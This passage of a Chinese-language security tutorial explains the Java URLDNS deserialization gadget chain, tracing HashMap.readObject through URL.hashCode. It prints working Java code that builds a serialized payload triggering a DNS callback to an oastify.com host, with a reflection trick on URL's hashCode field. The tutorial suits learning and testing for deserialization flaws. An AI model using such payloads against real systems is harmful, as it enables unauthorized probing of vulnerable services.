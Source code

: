 这里其他部分不用关注，只需要关注最后一部分，对每个key都执行了`putVal(hash(key), key, value, false, false);`

我们跟入查看hash(key)的实现

```java
static final int hash(Object key) {
  int h;
  return (key == null) ? 0 : (h = key.hashCode()) ^ (h >>> 16);
}
```

可以看到当key不为null时便会调用key的hashCode()方法，也就与我们前面所提到的呼应起来，完成了链条的打通，具体利用链为

```java
HashMap.readObject() --> HashMap.putVal() --> HashMap.hash() --> URL.hashCode() -->URLStreamHandler.hashCode().getHostAddress
```

但是，我们理所当然构造出的如下Payload却是错的（或者说不完善的）：

```java
HashMap<URL, Integer> urlIntegerHashMap = new HashMap<URL, Integer>();
URL url = new URL("http://p3tgvj6i7kexd1qiixiuc4ix5obhz6.oastify.com");
urlIntegerHashMap.put(url,1);
ObjectOutputStream oos = new ObjectOutputStream(Files.newOutputStream(Paths.get("ser.bin")));
oos.writeObject(urlIntegerHashMap);
```

其中存在的问题在于HashMap的put方法：

```java
public V put(K key, V value) {
  return putVal(hash(key), key, value, false, true);
}
```

put方法中已经提前执行了一次putVal，这会对hashCode()的执行造成影响：

```java
public synchronized int hashCode() {
  if (hashCode != -1)
    return hashCode;

  hashCode = handler.hashCode(this);
  return hashCode;
}
```

在执行put函数之前，hashCode属性为-1，会执行`handler.hashCode(this)`进而执行getHostAddress发起DNS请求，这导致在未进行反序列化时就已经发起了DNS请求，导致我们无从分辨收到的DNS请求是反序列化发出的还是单纯put时发出的，这是第一个影响。
第二个影响是当执行put请求后，由于执行了`handler.hashCode(this)`，导致hashCode的值已经不为-1了，所以序列化保存的对象其实hashCode本身已经不是-1了，反序列化时也压根到不了执行`handler.hashCode(this)`这一步，所以目前的Payload其实是不会发起DNS请求的。

为了解决这个问题，我们就需要实现两个目标，第一，在put之前让url对象的hashCode不为-1，这样在put时便会直接返回hashCode而不会执行`handler.hashCode(this)`，在put之后将url对象的hashCode改为-1，这样才能执行`handler.hashCode(this)`，这是两个相反的过程，我们借助反射来实现这一目标：

```java
HashMap<URL, Integer> urlIntegerHashMap = new HashMap<URL, Integer>();
URL url = new URL("http://p3tgvj6i7kexd1qiixiuc4ix5obhz6.oastify.com");
Class<URL> urlClass = URL.class;
Field hashCode = urlClass.getDeclaredField("hashCode");    //hashCode是private修饰要用getDeclaredField
hashCode.setAccessible(true);    //因为是private
hashCode.set(url,10);
urlIntegerHashMap.put(url,1);
hashCode.set(url,-1);
ObjectOutputStream oos = new ObjectOutputStream(Files.newOutputStream(Paths.get("ser.bin")));
oos.writeObject(urlIntegerHashMap);
```
